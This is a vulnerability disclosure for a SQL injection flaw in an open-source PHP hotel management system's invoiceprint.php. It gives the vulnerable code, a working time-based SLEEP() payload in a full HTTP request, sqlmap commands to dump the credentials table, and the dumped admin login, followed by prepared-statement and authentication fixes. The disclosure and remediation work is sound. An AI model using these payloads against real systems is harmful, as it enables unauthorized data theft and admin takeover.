

# Title: SQL Injection in Hotel-Management-System <= Latest

# **BUG_Author:** [yaklang.io, IRify, Yakit]

## Product Information

- **Vendor Homepage:** [https://github.com/tushar-2223/Hotel-Management-System](https://github.com/tushar-2223/Hotel-Management-System)

- **Software Link:** [https://github.com/tushar-2223/Hotel-Management-System](https://github.com/tushar-2223/Hotel-Management-System)

- **Affected Version:** <= Latest (as of Nov 2025)

- **BUG Author:** yaklang.io, IRify 

## Vulnerability Details

### Vulnerable Files

- `admin/invoiceprint.php` (Lines 386-388)

### Vulnerability Type

CWE-89: SQL Injection (Time-Based Blind)

### Root Cause

The `admin/invoiceprint.php` file directly retrieves user input from `$_GET['id']` parameter and concatenates it into SQL query without any validation, escaping, or use of prepared statements. Additionally, the file has no authentication or session validation, allowing unauthenticated access.

**Vulnerable Code (Lines 386-388)**:
```php
$id = $_GET['id'];

$sql = "select * from payment where id = '$id' ";
$re = mysqli_query($conn, $sql);
```

Key issues:
- No `session_start()` or authentication check
- Direct string concatenation into SQL query
- No input validation or sanitization
- Allows anonymous exploitation

### Impact

**Severity: Critical (CVSS 9.8)**

Attackers can exploit this vulnerability to:

1. **Extract Sensitive Data**: Access all database information including customer details, booking records, payment information, and administrator credentials
2. **Privilege Escalation**: Obtain admin credentials to login backend management system
3. **Database Manipulation**: Modify or delete records if MySQL permissions allow
4. **Remote Code Execution**: Potentially achieve RCE through file operations (`LOAD_FILE()`, `INTO OUTFILE`) if database user has FILE privilege
5. **Service Disruption**: Cause denial of service through resource-intensive queries

### Vulnerability Details:

The vulnerable endpoint is accessible at:
```
/Hotel-Management-System/admin/invoiceprint.php?id=[PAYLOAD]
```

The application uses single-quote (') to wrap the ID parameter in the WHERE clause, making it susceptible to SQL injection through quote-breaking techniques. The vulnerability allows time-based blind SQL injection, where attackers use the MySQL `SLEEP()` function to infer data by measuring response times.

**Exploitation Flow**:
1. Access the vulnerable endpoint without authentication
2. Inject time-delay payload to confirm vulnerability
3. Extract database structure using `information_schema`
4. Dump sensitive data including admin credentials
5. Login to admin panel and potentially achieve RCE through other features

### Attack Vectors:

1. **Time-Based Blind SQL Injection**: Use `SLEEP()` function to validate injection and extract data character by character
2. **Boolean-Based Blind SQL Injection**: Infer information based on application response differences
3. **UNION-Based SQL Injection**: Direct data extraction if page displays query results
4. **Stacked Queries**: Execute multiple SQL statements if supported
5. **Out-of-Band Data Exfiltration**: Use DNS or HTTP requests to extract data

### Attack Payload Examples:

#### 1. Time-Based Blind Injection - Verify Vulnerability

```http
GET /Hotel-Management-System/admin/invoiceprint.php?id=1'%20AND%20(SELECT%206246%20FROM%20(SELECT(SLEEP(5)))MiHK)%20AND%20'tHiH'%3D'tHiH HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate, br, zstd
Connection: close
```

**Decoded Payload**:
```
id=1' AND (SELECT 6246 FROM (SELECT(SLEEP(5)))MiHK) AND 'tHiH'='tHiH
```

**Expected Result**: Response delayed by ~5 seconds

## Code Scan 

This vulnerability is found by [IRify](https://ssa.to) :

Static code analysis identified the following security issues:
- Unvalidated GET parameter directly concatenated into SQL query
- No use of prepared statements or parameterized queries
- Missing authentication/authorization checks in admin directory
- No input sanitization using `mysqli_real_escape_string()` or similar functions

**Detection Pattern**:
```
Source: $_GET['id'] (Line 386)
Sink: mysqli_query($conn, $sql) (Line 389)
Data Flow: Direct concatenation without sanitization
```

## Proof of Concept

This vulnerability is validated by [Yakit](https://www.yaklang.io/)

**Validation Steps**:

1. **Setup Environment**:
   - Install XAMPP and import `bluebirdhotel.sql`
   - Start Apache and MySQL services
   - Access application at `http://127.0.0.1/Hotel-Management-System/`

2. **Execute POC**:
   ```http
   GET /Hotel-Management-System/admin/invoiceprint.php?id=1'%20AND%20(SELECT%206246%20FROM%20(SELECT(SLEEP(5)))MiHK)%20AND%20'tHiH'%3D'tHiH HTTP/1.1
   Host: 127.0.0.1
   ```

3. **Observe Results**:
   - Normal request: Response time < 200ms
   - Injection request: Response time ~5000ms (5 seconds delay)
   - **Conclusion**: Vulnerability confirmed

4. **Automated Exploitation** (using SQLMap):
   ```bash
   # Enumerate databases
   sqlmap -u "http://127.0.0.1/Hotel-Management-System/admin/invoiceprint.php?id=1" --batch --dbs
   
   # Dump admin credentials
   sqlmap -u "http://127.0.0.1/Hotel-Management-System/admin/invoiceprint.php?id=1" -D bluebirdhotel -T signup --dump
   ```

5. **Exploitation Result**:
   - SQL injection confirmed (time-based blind)
   - Database name extracted: `bluebirdhotel`
   - Tables enumerated: `signup`, `roombook`, `payment`, `staff`, `room`
   - Admin credentials dumped: `Admin@gmail.com / 1234`
   - No authentication required for exploitation
   
   

## Suggested Repairs

### Immediate Fixes:

#### 1. Use Prepared Statements (Critical - Must Implement)

Replace the vulnerable code in `admin/invoiceprint.php`:

```php
<?php
ob_start();
session_start(); // Add session validation

include '../config.php';

// Verify user is authenticated
if (!isset($_SESSION['usermail']) && !isset($_SESSION['staffmail'])) {
    header("Location: ../index.php");
    exit();
}

// Validate ID parameter exists and is numeric
if (!isset($_GET['id']) || !is_numeric($_GET['id'])) {
    die("Invalid ID parameter");
}

$id = intval($_GET['id']); // Force integer conversion

// Use prepared statement to prevent SQL injection
$stmt = $conn->prepare("SELECT * FROM payment WHERE id = ?");
if ($stmt === false) {
    die("Database error: " . htmlspecialchars($conn->error));
}

$stmt->bind_param("i", $id);
$stmt->execute();
$result = $stmt->get_result();

if ($result->num_rows > 0) {
    $row = $result->fetch_assoc();
    $id = $row['id'];
    $Name = $row['Name'];
    $troom = $row['RoomType'];
    $bed = $row['Bed'];
    $nroom = $row['NoofRoom'];
    $cin = $row['cin'];
    $cout = $row['cout'];
    $meal = $row['meal'];
    $ttot = $row['roomtotal'];
    $mepr = $row['mealtotal'];
    $btot = $row['bedtotal'];
    $fintot = $row['finaltotal'];
    $days = $row['noofdays'];
} else {
    die("Payment record not found");
}

$stmt->close();
?>
```

#### 2. Create Authentication Middleware

Create `admin/auth_check.php`:

```php
<?php
session_start();

// Require authentication for all admin pages
if (!isset($_SESSION['usermail']) && !isset($_SESSION['staffmail'])) {
    header("Location: ../index.php");
    exit();
}

// Optional: Require staff privileges for admin operations
if (isset($_SESSION['usermail']) && !isset($_SESSION['staffmail'])) {
    // Regular users shouldn't access admin functions
    if (!in_array(basename($_SERVER['PHP_SELF']), ['dashboard.php', 'logout.php'])) {
        header("Location: dashboard.php");
        exit();
    }
}
?>
```

Include this file at the beginning of all admin pages:
```php
<?php
require_once 'auth_check.php';
include '../config.php';
// ... rest of code
?>
```

#### 3. Input Validation Function

Create a validation utility in `config.php`:

```php
<?php
// ... existing config ...

// Secure integer parameter validation
function validate_int_param($param_name, $required = true) {
    if (!isset($_GET[$param_name])) {
        if ($required) {
            die("Missing required parameter: " . htmlspecialchars($param_name));
        }
        return null;
    }
    
    $value = filter_var($_GET[$param_name], FILTER_VALIDATE_INT);
    if ($value === false || $value < 0) {
        die("Invalid parameter value: " . htmlspecialchars($param_name));
    }
    
    return $value;
}

// Prepared statement helper
function execute_prepared_query($conn, $sql, $types, $params) {
    $stmt = $conn->prepare($sql);
    if ($stmt === false) {
        error_log("MySQL prepare error: " . $conn->error);
        die("Database error occurred");
    }
    
    if (!empty($params)) {
        $stmt->bind_param($types, ...$params);
    }
    
    if (!$stmt->execute()) {
        error_log("MySQL execute error: " . $stmt->error);
        die("Query execution failed");
    }
    
    return $stmt;
}
?>
```

Usage example:
```php
<?php
include 'auth_check.php';
include '../config.php';

$id = validate_int_param('id');
$stmt = execute_prepared_query($conn, "SELECT * FROM payment WHERE id = ?", "i", [$id]);
$result = $stmt->get_result();
// ... process results
?>
```
